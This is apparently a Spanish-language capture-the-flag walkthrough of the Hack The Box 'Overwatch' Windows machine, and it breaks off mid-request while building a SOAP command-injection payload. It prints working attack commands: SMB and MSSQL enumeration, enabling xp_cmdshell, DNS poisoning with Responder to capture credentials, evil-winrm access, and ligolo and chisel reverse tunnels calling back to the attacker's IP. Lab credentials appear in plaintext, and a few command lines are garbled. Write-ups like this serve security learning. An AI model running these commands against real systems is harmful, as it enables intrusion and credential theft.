# Overwatch
**IP:** 10.10.14.165 | **Target:** 10.129.28.253 | **Dificultad:** Intermedio | **Sistema:** Windows 

## Reconocimiento ye scaneo de puertos

Escaneo de todos los peurtos y servicion

```bash
nmap -n -Pn -sV -sC -p- --min-rate 3000 10.129.28.253
```

* Ojo con el puerto 6520, dice open pero no se especifica el servicio
* Puerto 5985 abiero, conxion remota con WinRM (faltan credenciales)

Se agrega el dominio a mi maquina

```bash
echo "10.129.28.253 overwatch.htb S200401.overwatch.htb S200401" >> /etc/hosts
```
## Enumeracion (compartidos)
Si no tenemos credenciales, usaremos usuario de invitado
```bash
netexec smb 10.129.28.253 -u 'guest' -p '' --shares
```


Veremos que tenemos permiso de lectura en "software$"
```bash
mbclient //10.129.28.253/software$ -U 'guest'%''
```
Dentro navegamos y veremos que contienen las carpetas

* Importate exportar archivos .txt, .config, .exe, .ini, .ps, .pdb


```bash
get overwatch.exe
get overwatch.exe.config
get overwatch.pdb
```


Leeremos los archivos

```bash
cat overwatch.exe.config
strings overwatch.exe 
strings overwatch.exe | grep -i "user\|pass\|db\|http"
strings overwatch.pdb
```


* Al parecer el puerto 8000 esta en uso pero no se detecto, quizas por el firewall

**importate**, Con el archivo .exe, usar https://www.decompiler.com/ para analizarlo




 * Analizando programs, se encontraron credenciales relacionado con"Database"
 
    
    * Id=sqlsvc;Password=TI0LKcfHzZw1Vv

Para maquinas HTB de windows en general se probaran donde funcionas estan credenciales

```bash
netexec winrm 10.129.28.253 -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv'
```
```bash
netexec smb 10.129.28.253 -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv'
```

```bash
impacket-mssqlclient overwatch.htb/sqlsvc:'TI0LKcfHzZw1Vv'@10.129.28.253 -port 6520
```

```bash
netexec mssql 10.129.28.253 -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv' -port 6520
```
Este seria el comando adecuado, -windows-auth, se le indica a la herramienta que use el protocolo NTLM para autenticarse como un usuario del sistema operativo.
```bash
impacket-mssqlclient overwatch.htb/sqlsvc:'TI0LKcfHzZw1Vv'@10.129.28.253 -port 6520 -windows-auth
```


Ahora sigue una fase de numeracion en BD (util para otros ctf)
 ### Fase 1
```bash
SELECT @@version; : Identify MSSQL version, OS version, and patch level to understand the environment and possible vulnerabilities.
SELECT @@servername; : Get the hostname of the SQL server to map it with domain infrastructure.
SELECT SYSTEM_USER; : Confirm the current login (e.g., OVERWATCH\sqlsvc) to understand privilege level.
SELECT USER_NAME(); : Shows database-level user identity.
SELECT HOST_NAME(); : Shows the client machine name connected to MSSQL.
SELECT DB_NAME(); : Displays the current database in use.
SELECT IS_SRVROLEMEMBER('sysadmin'); : Checks if the current user has sysadmin privileges.
SELECT IS_SRVROLEMEMBER('public'); : Confirms default role membership.
```
### Fase 2


```bash
SELECT * FROM fn_my_permissions(NULL, 'SERVER'); : Lists all server-level permissions of the current user.
SELECT name, type_desc FROM sys.server_principals; : Lists all SQL and Windows logins in the server.
SELECT * FROM sys.server_permissions; : Shows permissions granted to users and roles.
SELECT name, password_hash FROM sys.sql_logins; : Extracts SQL login hashes if accessible.
SELECT * FROM sys.database_principals; : Lists database-level users.
SELECT * FROM sys.database_permissions; : Shows database permissions.
```
### Fase 3

```bash
SELECT name FROM sys.databases; : Lists all available databases (master, msdb, overwatch, etc.).
USE overwatch; : Switch to application database.
SELECT name FROM sys.tables; : Lists all tables in the overwatch database.
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES; : Alternative table enumeration.
SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS; : Lists all columns in all tables.
SELECT TOP 50 * FROM <tablename>; : Dumps first 50 rows from Eventlog table.
```

### Fase 4
```bash
SELECT name FROM msdb.sys.tables; : Lists tables in msdb (jobs, backups, credentials).
SELECT * FROM msdb.dbo.sysjobs; : Lists scheduled SQL jobs.
SELECT * FROM msdb.dbo.backupset; : Shows backup history and file paths.
SELECT * FROM master.sys.databases; : Lists system databases again with metadata.
SELECT * FROM master.sys.syslogins; : Shows system logins.
```
### Fase 5
```bash
EXEC sp_linkedservers; : Lists all linked SQL servers.
SELECT * FROM sys.servers; : Shows linked server configuration (RPC, data access, etc.).
EXEC sp_helpserver; : Displays server and linked server information.
EXEC sp_helplinkedsrvlogin; : Shows linked server login mappings.
SELECT * FROM sys.linked_logins; : Displays linked server credential mapping.
```

### Fase 6
```bash
EXEC ('SELECT @@version') AT SQL07; : Test connection to linked server SQL07.
SELECT * FROM OPENQUERY(SQL07,'SELECT @@version'); : Alternative query to linked server.
EXEC ('SELECT SYSTEM_USER') AT SQL07; : Check authentication on linked server.
EXEC ('SELECT name FROM master.sys.databases') AT SQL07; : Enumerate remote databases.
```
### Fase 7

```bash
EXEC xp_cmdshell 'whoami'; : Test OS command execution.
EXEC sp_configure'show advanced options',1; RECONFIGUR E; : Enable advanced SQL options.
EXEC sp_configure 'xp_cmdshell',1; RECONFIGUR E; : Enable xp_cmdshell.
EXEC xp_cmdshell 'ipconfig'; : Check network configuration.
EXEC xp_cmdshell 'hostname'; : Get system hostname.
```
### Fase 8

```bash
EXEC sp_configure; : Lists SQL server configuration settings.
SELECT servicename, service_account FROM sys.dm_server_services; : Shows SQL service account.
SELECT * FROM sys.dm_exec_connections; : Lists active connections.
SELECT * FROM sys.dm_exec_sessions; : Shows current sessions.
```
### Fase 9
```bash
SELECT name FROM sys.server_principals WHERE type_desc='WINDOWS_LOGIN'; : Lists AD users connected to SQL.
SELECT * FROM sys.remote_logins; : Shows remote authentication settings.
SELECT * FROM sys.credentials; : Lists stored credentials.
SELECT * FROM sys.endpoints; : Shows SQL network endpoints.
```

Se uso el comando de la fase 5
```bash
EXEC sp_linkedservers;
```

* Un servidor vinculado  permite que un único servidor de base de datos acceda y ejecute comandos en otro servidor

Nos intentaremos conectar a SQL07 pero se dara un problema **Memorizar este problema**
```bash
netexec smb 10.129.28.253 -u 'guest' -p '' --shares
```

* El S200401 fue al servidor DNS y pregunto por la direccion IP de SQL07, al servidor DNS y nose pudo conectar timeout

Se hara un envenenamiento de DNS, con las credenciales que tenemos, crearemos un registro SQL07 indicandole al DNS que mi maquina KALI es SQL07

Se utilizara la herramienta dnstoll, copairlo todo el codigo de : https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/dnstool.py


```bash
cd krbrelayx
python3 dnstool.py -u 'overwatch.htb\sqlsvc' -p 'TI0LKcfHzZw1Vv' -r SQL07.overwatch.htb -d 10.10.14.165 --action add 10.129.28.253
```


Preparamos un "responder en una terminal"

```bash
responder -I tun0 -rdw
```


Ahora en la terminal de SQL
```bash
EXEC ('SELECT @@version') AT SQL07;
```


En la respuesta obtendremos nuevas credenciales las de S200401


* Usuario: sqlmgmt

* Contraseña: bIhBbzMMnB82yx

Como el puerto 5985 estaba abierto, intentaremos conexion via WinRm
```bash
netexec winrm 10.129.28.253 -u 'sqlmgmt' -p 'bIhBbzMMnB82yx'
```

Probar agregado o quitando las comillas solo al usuario
```bash
evil-winrm -i 10.129.28.253 -u 'sqlmgmt' -p 'bIhBbzMMnB82yx'
# type C:\Users\sqlmgmt\Desktop\user.txt
```


Ahora usaremos bloodhound para mapear la ruta (en maquinas como garfiel o pirate, HTB ya te davan en este caso las credenciales)

```bash
neo4j start 
cd Downloads
cd BloodHound-linux-x64 
./BloodHound --no-sandbox 
```

```bash
bloodhound-python -d overwatch.htb -u 'sqlmgmt' -p 'bIhBbzMMnB82yx' -ns 10.129.28.253 -c all --zip
```
** AL SER UNA MAQUINA DE NIVEL INTERMEDIO, EL CAMINO NO SERA lARGO EN TODO EL AD**, pero igual se tendran encuenta los comandos comunes para navegar en el AD:



### Comandos comunes
Ver carpetas compartidas (se encontraron caprpetas tipicas)
```bash
netexec smb 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares
```
Entrar a SYSVOL para encontrar contraseñas (nada)
```bash
netexec smb 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -M gpp_password
```
Listar usuario y veri si dejaron contraseñas anotadas (nada)
```bash
netexec ldap 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --users
```
Encontrar cuentas con SPN para robarle el hash (tampoco)
```bash
impacket-GetNPUsers garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978' -dc-ip 10.129.26.30
```
Ver sla vulneraviliad para encontrar llaves de entrada (nada)
```bash
netexec ldap 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -M pre2k
```

### Ver caminos de forma Manual
Volcamos todo el LDAP a archivos HTML para leer atributos de los usuarios

```bash
ldapdomaindump 10.129.26.30 -u 'garfield.htb\j.arbuckle' -p 'Th1sD4mnC4t!@1978' --no-json --no-grep
```

* LLendo a la carpeta dowloads y abriedo el archivo users, como tenes credenciales de j.arbuckle, sera lo que buscaremos

* J.arbuckle pertenece al grupo IT Support

```bash
# Ejemplo de cómo un atacante revisa sus propios derechos a ciegas
impacket-dacledit garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978' -action read -target 'l.wilson' -dc-ip 10.129.26.30
```
## Continuando
Recordando que el nmap no logro capturar el puerto 8000 y se encontro una URL (foto), ejecutaremos en la shell

```bash
 Invoke-WebRequest -Uri "http://overwatch.htb:8000/MonitorService" -UseBasicParsing
```

* el firewall de Windows probablemente está bloqueando las conexiones al puerto 8000 que vienen desde fuera (mi KALI). Sin embargo, ese mismo firewall sí permite que los procesos internos se comuniquen con ese puerto.

### Pivoting ligolo (Queda mencionado para tenerlo en cuenta pero no funcionara, USAR CHISeL)

Borramos rutas viejas, primero ver las interfaces y las rutas

```bash
ip a
ip route
```
Limpiamos

```bash
sudo ip link delete ligolo 2>/dev/null
```

Ahora crearemos una interfaz de red y se encendera
```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
ip a
```


Ya no se configurara la ruta, ya esta en el /etc/hosts (nuestro kali si tiene conexion pero no con cierto puerto), pero se dejara el coamndo para otros laboraotrios

```bash
sudo ip route add 10.129.28.253/32 dev ligolo
```

ejecutamos el proxy
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```
Ahora en la consolo WinRM de sqlmgmt subiremos el agente

```bash
upload agent.exe
```
Una vez subido, sinedo nuestra ip de kali (tun0 openvpn) 10.10.14.165, ejecutamos

```bash
.\agent.exe -connect 10.10.14.165:443 -ignore-cert
```


Ejecutamos "session" y listo **Poner "start"**


** LASTIMOSAMENTO NO FUNCIONARA LIGOLO, PERO QUEDARA MAPEADO PARA SIGUIENTES LABS, 

### CHISEL

Reapramos el DNS (repetirlo si no nos deja usar wl wget)

```bash
sudo echo -e "nameserver 8.8.8.8\nnameserver 1.1.1.1" | sudo tee /etc/resolv.conf > /dev/null
```
Instalamos el chisel

```bash
# Para tu Kali (Linux)
wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_linux_amd64.gz
gunzip chisel_1.10.0_linux_amd64.gz
chmod +x chisel_1.10.0_linux_amd64

# Para la víctima (Windows)
wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_windows_amd64.gz
gunzip chisel_1.10.0_windows_amd64.gz
mv chisel_1.10.0_windows_amd64 chisel.exe -p '' --shares
```

en kali, se preparara la escucha
```bash
chmod +x chisel_1.10.0_linux_amd64
./chisel_1.10.0_linux_amd64 server -p 9001 --reverse
```


En la shell de evil-WinRM,para tener acceso al pagina 
```bash
upload chisel.exe
.\chisel.exe client 10.10.14.165:9001 R:8000:127.0.0.1:8000
```


Naveagamos ahora a: http://127.0.0.1:8000/MonitorService?singleWsdl


* tartMonitoring: No recibe parámetros.

* StopMonitoring: No recibe parámetros.

* KillProcess: Esta es la más interesante ya que recibe un parámetro de tipo string llamado processName, parámetro sin procesar como una cadena de texto simple, lo cual es una señal de alerta clásica para la **inyección de comandos**.

Abrimos el burp suite, capturamos la señal y lo enviamos al repeater




Se le haran cambios


Con ayuda de la IA se generara el request y ver si tenemos respuesta "ok"

```bash
POST /MonitorService HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/IMonitoringService/KillProcess"
Connection: close
Content-Length: 455

<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <KillProcess xmlns="http://tempuri.org/">
